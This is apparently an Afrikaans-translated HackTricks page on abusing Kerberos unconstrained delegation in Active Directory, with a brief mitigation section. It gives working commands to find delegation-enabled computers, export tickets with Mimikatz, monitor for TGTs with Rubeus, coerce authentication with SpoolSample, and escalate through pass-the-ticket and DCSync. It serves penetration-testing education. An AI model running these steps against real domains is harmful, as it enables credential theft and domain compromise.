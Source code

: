 # Onbeperkte Afvaardiging

{{#include ../../banners/hacktricks-training.md}}

## Onbeperkte afvaardiging

Dit is 'n kenmerk wat 'n Domein Administrateur kan stel op enige **Rekenaar** binne die domein. Dan, wanneer 'n **gebruiker aanmeld** op die Rekenaar, sal 'n **kopie van die TGT** van daardie gebruiker **binne die TGS** wat deur die DC **gestuur word en in geheue in LSASS gestoor word**. So, as jy Administrateur regte op die masjien het, sal jy in staat wees om die **kaartjies te dump en die gebruikers te vervang** op enige masjien.

So as 'n domein admin aanmeld op 'n Rekenaar met die "Onbeperkte Afvaardiging" kenmerk geaktiveer, en jy het plaaslike admin regte op daardie masjien, sal jy in staat wees om die kaartjie te dump en die Domein Admin enige plek te vervang (domein privesc).

Jy kan **Rekenaar voorwerpe met hierdie attribuut vind** deur te kyk of die [userAccountControl](<https://msdn.microsoft.com/en-us/library/ms680832(v=vs.85).aspx>) attribuut [ADS_UF_TRUSTED_FOR_DELEGATION](<https://msdn.microsoft.com/en-us/library/aa772300(v=vs.85).aspx>) bevat. Jy kan dit doen met 'n LDAP filter van ‘(userAccountControl:1.2.840.113556.1.4.803:=524288)’, wat is wat powerview doen:

<pre class="language-bash"><code class="lang-bash"># Lys onbeperkte rekenaars
## Powerview
Get-NetComputer -Unconstrained #DCs verskyn altyd maar is nie nuttig vir privesc nie
<strong>## ADSearch
</strong>ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
<strong># Eksporteer kaartjies met Mimikatz
</strong>privilege::debug
sekurlsa::tickets /export #Aanbevole manier
kerberos::list /export #Nog 'n manier

# Monitor aanmeldings en eksport nuwe kaartjies
.\Rubeus.exe monitor /targetuser:<username> /interval:10 #Kontroleer elke 10s vir nuwe TGTs</code></pre>

Laai die kaartjie van die Administrateur (of slagoffer gebruiker) in geheue met **Mimikatz** of **Rubeus vir 'n** [**Pass the Ticket**](pass-the-ticket.md)**.**\
Meer inligting: [https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)\
[**Meer inligting oor Onbeperkte afvaardiging in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)

### **Forceer Verifikasie**

As 'n aanvaller in staat is om 'n **rekenaar wat toegelaat word vir "Onbeperkte Afvaardiging" te kompromitteer**, kan hy 'n **Druk bediener** **mislei** om **outomaties aan te meld** teen dit **en 'n TGT in die geheue van die bediener te stoor**.\
Dan kan die aanvaller 'n **Pass the Ticket aanval uitvoer om** die gebruiker se Druk bediener rekenaarrekening te vervang.

Om 'n druk bediener teen enige masjien aan te meld, kan jy [**SpoolSample**](https://github.com/leechristensen/SpoolSample) gebruik:
```bash
.\SpoolSample.exe <printmachine> <unconstrinedmachine>
```
As die TGT van 'n domeinbeheerder is, kan jy 'n [**DCSync-aanval**](acl-persistence-abuse/index.html#dcsync) uitvoer en al die hashes van die DC verkry.\
[**Meer inligting oor hierdie aanval in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)

**Hier is ander maniere om te probeer om 'n outentisering te dwing:**

{{#ref}}
printers-spooler-service-abuse.md
{{#endref}}

### Versagting

- Beperk DA/Admin aanmeldings tot spesifieke dienste
- Stel "Rekening is sensitief en kan nie gedelegeer word nie" vir bevoorregte rekeninge.

{{#include ../../banners/hacktricks-training.md}}
